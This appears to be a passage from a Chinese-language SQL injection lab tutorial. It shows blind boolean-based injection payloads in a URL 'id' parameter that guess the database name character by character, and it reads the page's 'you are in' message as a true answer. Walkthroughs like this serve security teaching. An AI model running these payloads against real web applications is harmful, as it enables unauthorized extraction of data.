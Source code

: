 ![138.jpg](./img/138.jpg)

我们在URL中使用这个查询。

`?id=1′ AND (ascii(substr((select database()) ,3,3)) = 99 –-+`

屏幕上显示 you are in .........。

这意味着99是真的。

![141.jpg](./img/141.jpg)

如果我们将99改为98，会发生什么：

`?id=1′ AND (ascii(substr((select database()) ,3,3)) = 98`

我们可以看到屏幕上没有发生什么，我们可以得出得到了一个错误。

![143.jpg](./img/143.jpg)
